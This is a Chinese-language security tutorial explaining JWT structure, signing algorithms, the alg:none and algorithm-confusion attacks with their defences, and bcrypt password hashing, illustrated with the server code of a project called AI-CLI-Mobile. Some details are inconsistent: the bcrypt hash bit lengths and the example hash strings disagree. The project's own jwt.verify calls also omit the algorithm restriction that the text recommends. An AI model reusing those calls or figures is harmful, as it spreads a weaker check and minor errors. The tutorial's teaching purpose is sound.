

---

# 第二章：JWT 深度解析

## 2.1 JWT 是什么

JWT（JSON Web Token）是一种开放标准（RFC 7519），用于在各方之间安全地传输信息。它是一个**紧凑的、URL 安全的**令牌，包含声明（claims）信息。

### 核心特点



### JWT 的用途

| 用途 | 说明 | 示例 |
|------|------|------|
| **身份认证** | 用户登录后发放 JWT | AI-CLI-Mobile 的登录系统 |
| **信息交换** | 在各方之间安全传输信息 | 微服务间传递用户上下文 |
| **授权** | 携带用户权限信息 | API 网关的权限校验 |
| **单点登录** | 一次登录，多处使用 | 企业 SSO 系统 |

## 2.2 JWT 的三段式结构

JWT 由三部分组成，用 `.` 分隔：`Header.Payload.Signature`

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJ1c2VySWQiOiJhYmMxMjMiLCJ1c2VybmFtZSI6InRlc3QiLCJpYXQiOjE3MDMyNzY0MDAsImV4cCI6MTcwMzI4MDAwMH0.
SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

### 三段详解



### Header（头部）

```json
{
  "alg": "HS256",   // 签名算法
  "typ": "JWT"      // 令牌类型
}
```

### Payload（载荷）

```json
{
  "userId": "abc123",           // 私有声明：用户 ID
  "username": "test",           // 私有声明：用户名
  "iat": 1703276400,            // 标准声明：签发时间
  "exp": 1703280000             // 标准声明：过期时间
}
```

### 标准声明（Registered Claims）

| 声明 | 全称 | 说明 | 必需 |
|------|------|------|------|
| `iss` | Issuer | 签发者 | 推荐 |
| `sub` | Subject | 主题（通常是用户 ID） | 推荐 |
| `aud` | Audience | 接收者 | 推荐 |
| `exp` | Expiration Time | 过期时间 | 推荐 |
| `nbf` | Not Before | 生效时间 | 可选 |
| `iat` | Issued At | 签发时间 | 可选 |
| `jti` | JWT ID | 唯一标识 | 可选 |

### Signature（签名）

签名的目的是**验证数据没有被篡改**：

```javascript
// 签名过程（伪代码）
signature = HMACSHA256(
  base64UrlEncode(header) + "." + base64UrlEncode(payload),
  secret
)
```



> ⚠️ **重要**：JWT 的 Header 和 Payload 只是 Base64 编码，**不是加密**！任何人都能解码读取内容。签名只能保证数据**完整性**，不能保证**机密性**。不要在 JWT 中存放敏感信息（如密码）。

### 手动解析 JWT

```javascript
// 在浏览器控制台中手动解析 JWT
const token = "eyJhbGciOiJIUzI1NiIs...";

// 分割三部分
const [header, payload, signature] = token.split('.');

// 解码 Header
JSON.parse(atob(header));
// → { alg: "HS256", typ: "JWT" }

// 解码 Payload
JSON.parse(atob(payload));
// → { userId: "abc123", username: "test", exp: 1703280000 }

// 注意：你无法验证签名，因为你没有 Secret Key
```

## 2.3 签名算法对比

### 算法分类



### 算法详细对比

| 维度 | HS256 | RS256 | ES256 |
|------|-------|-------|-------|
| **类型** | 对称（HMAC） | 非对称（RSA） | 非对称（ECDSA） |
| **密钥** | 一个共享密钥 | 公钥+私钥对 | 公钥+私钥对 |
| **签名速度** | ⚡ 最快 | 🐢 较慢 | ⚡ 快 |
| **验签速度** | ⚡ 最快 | ⚡ 快 | 🐢 较慢 |
| **密钥长度** | 256 位 | 2048+ 位 | 256 位 |
| **安全性** | 高 | 高 | 高 |
| **适用场景** | 单服务内部 | 微服务/第三方 | 移动端/IoT |
| **密钥管理** | 共享密钥需安全分发 | 公钥可公开分发 | 公钥可公开分发 |

### 什么时候用什么算法？



> 💡 **AI-CLI-Mobile 的选择**：项目使用 HS256，因为签发和验证都在同一个服务内部，不需要分发公钥。这是最简单、最高效的选择。

## 2.4 JWT 安全风险

### 风险全景图



### 风险详解

#### 1. alg:none 攻击

```mermaid
sequenceDiagram
    participant A as 攻击者
    participant S as 服务器

    Note over A: 1. 拦截正常 JWT
    Note over A: 2. 修改 Payload<br/>{userId: "admin"}
    Note over A: 3. 修改 Header<br/>{alg: "none"}
    Note over A: 4. 去掉签名部分
    A->>S: 发送伪造的 JWT
    Note over S: ⚠️ 如果服务器不检查 alg，<br/>直接接受！
```

**防御**：服务器必须强制指定允许的算法，拒绝 `none` 算法。

```javascript
// ❌ 危险：不指定算法
jwt.verify(token, secret)

// ✅ 安全：强制指定算法
jwt.verify(token, secret, { algorithms: ['HS256'] })
```

#### 2. 算法混淆攻击

攻击者将 `RS256`（非对称）改为 `HS256`（对称），然后用公钥（公开的）作为 HMAC 密钥签名。

```javascript
// 攻击者的思路：
// 1. 服务器使用 RS256，公钥是公开的
// 2. 攻击者将 alg 改为 HS256
// 3. 用公钥作为 HMAC 密钥签名
// 4. 服务器用 HS256 + 公钥验签 → 通过！（因为公钥 = HMAC 密钥）
```

**防御**：明确指定允许的算法，不要让 JWT 库自行选择。

## 2.5 JWT 最佳实践

### 安全检查清单

```mermaid
graph TB
    subgraph 发签["签发时"]
        F1["✅ 使用强密钥（>=256位）"]
        F2["✅ 设置合理的过期时间"]
        F3["✅ 只放必要信息"]
        F4["✅ 不放敏感数据（密码等）"]
    end

    subgraph 验证["验证时"]
        V1["✅ 指定允许的算法"]
        V2["✅ 验证 exp 和 nbf"]
        V3["✅ 验证 iss 和 aud"]
        V4["✅ 使用 constant-time 比较"]
    end

    subgraph 存储["存储时"]
        S1["✅ HttpOnly Cookie 或内存"]
        S2["❌ 避免 localStorage（XSS）"]
        S3["✅ 使用 Secure 和 SameSite"]
        S4["✅ 实现 Token 轮换"]
    end

    style 发签 fill:#e3f2fd,stroke:#1565c0
    style 验证 fill:#e8f5e9,stroke:#2e7d32
    style 存储 fill:#fff3e0,stroke:#e65100
```

### 过期时间建议

| Token 类型 | 推荐过期时间 | 说明 |
|-----------|-------------|------|
| Access Token | 15 分钟 | 短期有效，泄露影响小 |
| Refresh Token | 7 天 | 长期有效，用于续期 |
| ID Token | 5-10 分钟 | 一次性使用 |
| 邮件验证 Token | 24 小时 | 一次性使用 |
| 密码重置 Token | 1 小时 | 一次性使用 |

## 2.6 项目中的 JWT 实现逐行分析

### Token 生成函数

```typescript
// 文件：apps/server/src/routes/auth.ts

function generateTokenPair(userId: string, username: string): TokenPair {
  const config = getConfig()

  // 生成 Access Token
  const accessToken = jwt.sign(
    { userId, username },        // Payload：只放用户ID和用户名
    config.JWT_SECRET,           // 使用配置中的密钥
    { expiresIn: '15m' }         // 15分钟过期
  )

  // 生成 Refresh Token
  const refreshToken = jwt.sign(
    { userId, username },        // Payload：同样的用户信息
    config.JWT_REFRESH_SECRET,   // ⚠️ 使用不同的密钥！
    { expiresIn: '7d' }          // 7天过期
  )

  return { accessToken, refreshToken }
}
```

**关键设计决策：**

1. **双密钥**：Access Token 和 Refresh Token 使用**不同的密钥**。即使一个密钥泄露，另一个仍然安全。
2. **最小信息**：Payload 中只包含 `userId` 和 `username`，没有敏感信息。
3. **合理过期**：Access Token 15 分钟，Refresh Token 7 天。

### 全局认证中间件

```typescript
// 文件：apps/server/src/plugins/auth.ts

// 白名单路径：这些路径不需要认证
const WHITELIST_PATHS = ['/health', '/api/auth/login', '/api/auth/refresh']

async function authPlugin(fastify: FastifyInstance) {
  // 注册全局 onRequest 钩子
  fastify.addHook('onRequest', async (request, reply) => {
    // 1. 检查是否在白名单中
    const urlPath = request.url.split('?')[0]
    if (WHITELIST_PATHS.some(p => urlPath === p)) {
      return  // 白名单路径，直接放行
    }

    // 2. 检查 Authorization 头
    const authHeader = request.headers.authorization
    if (!authHeader?.startsWith('Bearer ')) {
      return reply.code(401).send({ error: 'Missing or invalid authorization header' })
    }

    // 3. 提取 Token
    const token = authHeader.slice(7)  // 去掉 "Bearer " 前缀

    // 4. 验证 Token
    try {
      const decoded = jwt.verify(token, getConfig().JWT_SECRET) as JwtPayload
      request.user = decoded  // 将用户信息挂载到 request 上
    } catch {
      return reply.code(401).send({ error: 'Invalid or expired token' })
    }
  })
}
```

**逐行分析：**

```mermaid
graph TD
    A["请求进入"] --> B{"在白名单中？"}
    B -->|是| C["直接放行"]
    B -->|否| D{"有 Bearer Token？"}
    D -->|否| E["返回 401"]
    D -->|是| F["jwt.verify()"]
    F -->|成功| G["挂载 request.user"]
    F -->|失败| E
    G --> H["继续处理请求"]

    style C fill:#c8e6c9,stroke:#2e7d32
    style E fill:#ffcdd2,stroke:#c62828
    style G fill:#e3f2fd,stroke:#1565c0
    style H fill:#c8e6c9,stroke:#2e7d32
```

### WebSocket 认证

```typescript
// 文件：apps/server/src/lib/wsAuth.ts

export function verifyWsUpgradeToken(
  request: FastifyRequest,
  ws: WebSocket,
  channelName: string,
): JwtPayload | null {
  // 1. 从 URL 查询参数中提取 Token
  //    注意：WebSocket 不能设置自定义 Header，
  //    所以 Token 通过 URL 参数传递
  const token = (request.query as Record<string, string | undefined>)?.token
  const secret = getConfig().JWT_SECRET

  // 2. 检查 Token 是否存在
  if (!token) {
    pinoLogger.warn(`${channelName} WS upgrade rejected — missing token`)
    ws.close(4001, 'Missing token')  // 自定义关闭码 4001
    return null
  }

  // 3. 验证 Token
  try {
    return jwt.verify(token, secret) as JwtPayload
  } catch {
    pinoLogger.warn(`${channelName} WS upgrade rejected — invalid token`)
    ws.close(4001, 'Invalid token')
    return null
  }
}
```

**WebSocket 认证的特殊性：**

| HTTP 请求 | WebSocket 连接 |
|-----------|---------------|
| Token 放在 `Authorization` Header | Token 放在 URL 查询参数 `?token=xxx` |
| 每次请求都验证 | 只在升级（upgrade）时验证一次 |
| 验证失败返回 HTTP 状态码 | 验证失败关闭连接（自定义码 4001） |

> ⚠️ **安全提示**：WebSocket Token 通过 URL 传递，可能会出现在服务器日志、代理日志中。因此 Access Token 的有效期应该尽可能短（15分钟），并且应该使用 WSS（加密连接）。

### Token 刷新流程

```typescript
// 文件：apps/server/src/routes/auth.ts

fastify.post('/refresh', async (request, reply) => {
  const body = request.body as Record<string, unknown>
  const refreshToken = typeof body.refreshToken === 'string' ? body.refreshToken : ''

  if (!refreshToken) {
    return reply.code(400).send({ error: 'Refresh token required' })
  }

  try {
    const config = getConfig()
    // 1. 使用 REFRESH_SECRET 验证 Refresh Token
    const decoded = jwt.verify(refreshToken, config.JWT_REFRESH_SECRET) as JwtPayload

    // 2. 签发新的 Access Token
    const accessToken = jwt.sign(
      { userId: decoded.userId, username: decoded.username },
      config.JWT_SECRET,          // 使用 ACCESS_SECRET
      { expiresIn: '15m' }
    )

    return { accessToken }
  } catch {
    return reply.code(401).send({ error: 'Invalid or expired refresh token' })
  }
})
```

```mermaid
sequenceDiagram
    participant C as 客户端
    participant S as 服务器

    C->>S: POST /api/auth/refresh<br/>{refreshToken: "xxx"}
    Note over S: jwt.verify(refreshToken, REFRESH_SECRET)
    alt 验证失败
        S-->>C: 401 Invalid or expired refresh token
    end
    Note over S: jwt.sign({userId, username}, ACCESS_SECRET)
    S-->>C: 200 {accessToken: "new_token"}
```

---

# 第三章：密码安全

## 3.1 为什么不能明文存储密码

```mermaid
graph TB
    subgraph 明文["❌ 明文存储"]
        E1["数据库泄露"]
        E2["攻击者直接看到所有密码"]
        E3["用户在其他网站的密码也被破解<br/>（密码复用）"]
    end

    subgraph 哈希["✅ 哈希存储"]
        H1["数据库泄露"]
        H2["攻击者只能看到哈希值"]
        H3["需要暴力破解才能得到密码"]
    end

    明文 -->|"后果"| E3
    哈希 -->|"防护"| H3

    style 明文 fill:#ffcdd2,stroke:#c62828
    style 哈希 fill:#c8e6c9,stroke:#2e7d32
```

### 真实案例

| 事件 | 年份 | 影响 | 原因 |
|------|------|------|------|
| LinkedIn | 2012 | 650万密码泄露 | SHA1 无盐值哈希 |
| Adobe | 2013 | 1.53亿密码泄露 | 3DES 加密（非哈希） |
| Yahoo | 2013 | 30亿账户泄露 | MD5 哈希 |
| Dropbox | 2012 | 6800万密码泄露 | bcrypt（但密钥也泄露了） |

> 💡 **教训**：即使用了哈希，如果算法不够强（如 MD5、SHA1），攻击者仍然可以用彩虹表或 GPU 暴力破解。必须使用专门的密码哈希算法。

## 3.2 哈希算法对比

### 算法分类

```mermaid
graph TB
    subgraph 哈希算法["哈希算法分类"]
        subgraph 通用["通用哈希（不适用于密码）"]
            MD5["MD5<br/>128位 ❌ 已破解"]
            SHA1["SHA-1<br/>160位 ❌ 已破解"]
            SHA256["SHA-256<br/>256位 ⚠️ 不推荐"]
        end

        subgraph 密码["密码专用哈希（推荐）"]
            bcrypt["bcrypt ⭐<br/>自适应成本"]
            scrypt["scrypt ⭐<br/>内存密集型"]
            argon2["Argon2 ⭐⭐⭐<br/>最新标准"]
        end
    end

    style 通用 fill:#ffcdd2,stroke:#c62828
    style 密码 fill:#c8e6c9,stroke:#2e7d32
```

### 详细对比

| 维度 | MD5 | SHA-256 | bcrypt | scrypt | Argon2 |
|------|-----|---------|--------|--------|--------|
| **设计目的** | 通用校验 | 通用校验 | 密码存储 | 密码存储 | 密码存储 |
| **输出长度** | 128位 | 256位 | 184位 | 可变 | 可变 |
| **速度** | ⚡ 极快 | ⚡ 快 | 🐢 慢 | 🐢 慢 | 🐢 慢 |
| **抗 GPU** | ❌ | ❌ | ⚠️ 中等 | ✅ 强 | ✅✅ 最强 |
| **抗 ASIC** | ❌ | ❌ | ⚠️ 中等 | ⚠️ 中等 | ✅✅ 最强 |
| **盐值** | ❌ 无 | ❌ 无 | ✅ 内置 | ✅ 内置 | ✅ 内置 |
| **可调节成本** | ❌ | ❌ | ✅ rounds | ✅ N/r/p | ✅ time/mem/threads |
| **推荐用于密码** | ❌❌ | ❌ | ✅ | ✅ | ✅✅✅ |
| **标准化** | RFC 1321 | FIPS 180-4 | 无正式标准 | RFC 7914 | RFC 9106 |

> ⚠️ **关键区别**：通用哈希算法（MD5、SHA）设计目标是**快**，而密码哈希算法（bcrypt、Argon2）设计目标是**慢**。越慢，暴力破解的代价越高。

### 为什么"慢"是好事？

```mermaid
graph LR
    subgraph 快哈希["SHA-256（快）"]
        S1["1秒能计算<br/>10亿次哈希"]
        S2["GPU 集群<br/>很快就能破解"]
    end

    subgraph 慢哈希["bcrypt（慢）"]
        B1["1秒只能计算<br/>几千次哈希"]
        B2["GPU 集群<br/>也需要很长时间"]
    end

    快哈希 -->|"攻击代价低"| S2
    慢哈希 -->|"攻击代价高"| B2

    style 快哈希 fill:#ffcdd2,stroke:#c62828
    style 慢哈希 fill:#c8e6c9,stroke:#2e7d32
```

### bcrypt cost factor 的影响

| Cost Factor | 迭代次数 | 计算时间（约） | 安全性 |
|------------|---------|-------------|--------|
| 8 | 256 | ~5ms | 低 |
| 10 | 1024 | ~100ms | 中（项目默认） |
| 12 | 4096 | ~300ms | 高 |
| 14 | 16384 | ~1.5s | 很高 |
| 16 | 65536 | ~5s | 极高（但影响用户体验） |

> 💡 **AI-CLI-Mobile 的选择**：使用 `bcrypt.hash(password, 10)`，即 cost factor = 10。这是安全性与性能的良好平衡。

## 3.3 bcrypt 工作原理

### 完整流程图

```mermaid
flowchart TB
    A["输入：用户密码"] --> B["生成盐值（Salt）"]
    B --> C["盐值 = 128位随机数"]

    C --> D["Blowfish 密钥调度"]
    D --> E["使用密码和盐值<br/>初始化 Blowfish 状态"]

    E --> F["Eksblowfish 算法"]
    F --> G["进行 2^cost 轮加密"]
    G --> H["cost=10 → 1024轮"]

    H --> I["输出 184位哈希"]
    I --> J["$2b$10$盐值哈希值"]

    J --> K["存储到数据库"]

    style A fill:#e3f2fd,stroke:#1565c0
    style K fill:#c8e6c9,stroke:#2e7d32
    style F fill:#fff3e0,stroke:#e65100
```

### bcrypt 输出格式

```
$2b$10$N9qo8uLOickgx2ZMRZoMye.IjqG3KuH6UQdVn0UVFXUBPYJ3Oq.K
│ │  │  └──────────── 128位哈希值（31个字符）
│ │  └─────────────── 128位盐值（22个字符）
│ └────────────────── cost factor（10 = 2^10 = 1024轮）
└──────────────────── 版本标识（2b = 最新版本）
```

| 部分 | 内容 | 长度 | 说明 |
|------|------|------|------|
| `$2b$` | 版本标识 | 4字符 | `2a` 有 bug，`2b` 是修复版 |
| `10$` | Cost factor | 2-3字符 | 越大越慢越安全 |
| `N9qo8uLOickgx2ZMRZoMye.` | 盐值 | 22字符 | Base64 编码的随机数 |
| `IJqG3KuH6UQdVn0UVFXUBPYJ3Oq.K` | 哈希值 | 31字符 | Base64 编码的哈希结果 |

### bcrypt 验证过程

```mermaid
sequenceDiagram
    participant U as 用户
    participant S as 服务器
    participant DB as 数据库

    U->>S: 登录 {username: "alice", password: "123456"}
    S->>DB: 查询 alice 的密码哈希
    DB-->>S: "$2b$10$N9qo8uLOickg..."
    Note over S: 从哈希中提取盐值<br/>"$N9qo8uLOickg..."
    S->>S: bcrypt.compare("123456", storedHash)
    Note over S: 1. 用相同盐值和 cost<br/>2. 对输入密码重新计算哈希<br/>3. 比较两个哈希是否相同
    alt 哈希匹配
        S-->>U: ✅ 登录成功
    else 哈希不匹配
        S-->>U: ❌ 密码错误
    end
```

## 3.4 盐值（Salt）的作用

### 没有盐值的问题

```mermaid
graph TB
    subgraph 无盐["❌ 无盐值哈希"]
        P1["密码 '123456'"] --> H1["SHA256 → e10adc3949ba59..."]
        P2["密码 '123456'"] --> H2["SHA256 → e10adc3949ba59..."]
        P3["密码 'password'"] --> H3["SHA256 → 5f4dcc3b5aa765..."]
        Note1["⚠️ 相同密码 → 相同哈希！"]
        Note2["彩虹表攻击：预计算所有常见密码的哈希"]
    end

    style 无盐 fill:#ffcdd2,stroke:#c62828
```

### 有盐值的解决方案

```mermaid
graph TB
    subgraph 有盐["✅ 有盐值哈希"]
        P1["密码 '123456' + 盐 'a1b2'"] --> H1["bcrypt → $2b$10$a1b2...XyZ"]
        P2["密码 '123456' + 盐 'c3d4'"] --> H2["bcrypt → $2b$10$c3d4...AbC"]
        P3["密码 '123456' + 盐 'e5f6'"] --> H3["bcrypt → $2b$10$e5f6...MnO"]
        Note1["✅ 相同密码 → 不同哈希！"]
        Note2["每个用户都有唯一的盐值"]
        Note3["彩虹表完全失效"]
    end

    style 有盐 fill:#c8e6c9,stroke:#2e7d32
```

### 盐值的安全要求

| 要求 | 说明 | 原因 |
|------|------|------|
| **唯一性** | 每个密码使用不同的盐 | 相同盐值 = 相同问题 |
| **随机性** | 使用密码学安全的随机数 | 可预测的盐值 = 无盐值 |
| **长度** | 至少 128 位（16字节） | 太短容易被暴力枚举 |
| **存储** | 和哈希值一起存储 | 验证时需要相同的盐值 |

> 💡 **bcrypt 自动处理盐值**：使用 bcrypt 时，盐值自动生成并嵌入到哈希字符串中，开发者不需要手动管理。这是 bcrypt 的一大优势。

## 3.5 项目中的密码处理

### 密码哈希（注册/创建用户）

```typescript
// 文件：apps/server/src/routes/auth.ts

// 创建管理员用户
export async function ensureAdminUser() {
  const config = getConfig()
  const adminUsername = config.ADMIN_USERNAME
  const adminPassword = config.ADMIN_PASSWORD

  if (!adminPassword) {
    pinoLogger.fatal('ADMIN_PASSWORD not set, cannot create admin user')
    process.exit(1)  // 没有密码直接退出，不启动服务
  }

  if (!hasUser(adminUsername)) {
    // ✅ 使用异步 bcrypt.hash，避免阻塞事件循环
    const passwordHash = await bcrypt.hash(adminPassword, 10)
    createUser(adminUsername, {
      userId: crypto.randomUUID(),
      username: adminUsername,
      passwordHash,
      createdAt: new Date().toISOString(),
    })
  }
}
```

### 密码验证（登录）

```typescript
// 文件：apps/server/src/routes/auth.ts

fastify.post('/login', async (request, reply) => {
  const { username, password } = request.body

  // 1. 查找用户
  const user = getUser(username)
  if (!user) {
    // ⚠️ 安全：不要告诉用户"用户不存在"
    // 统一返回"Invalid credentials"，防止用户名枚举
    auditLog('LOGIN_FAILED', undefined, { username, reason: 'user not found', ip: request.ip })
    return reply.code(401).send({ error: 'Invalid credentials' })
  }

  // 2. 验证密码
  const valid = await bcrypt.compare(password, user.passwordHash)
  if (!valid) {
    auditLog('LOGIN_FAILED', user.userId, { username, reason: 'invalid password', ip: request.ip })
    return reply.code(401).send({ error: 'Invalid credentials' })
  }

  // 3. 生成 Token
  const tokens = generateTokenPair(user.userId, user.username)
  auditLog('LOGIN', user.userId, { username, ip: request.ip })
  return tokens
})
```

**安全设计亮点：**

```mermaid
graph TB
    subgraph 安全措施["安全措施"]
        S1["✅ 统一错误消息<br/>'Invalid credentials'<br/>不区分用户不存在和密码错误"]
        S2["✅ 审计日志<br/>记录登录失败原因（内部）"]
        S3["✅ 记录 IP 地址<br/>用于检测异常登录"]
        S4["✅ 速率限制<br/>每分钟最多5次登录尝试"]
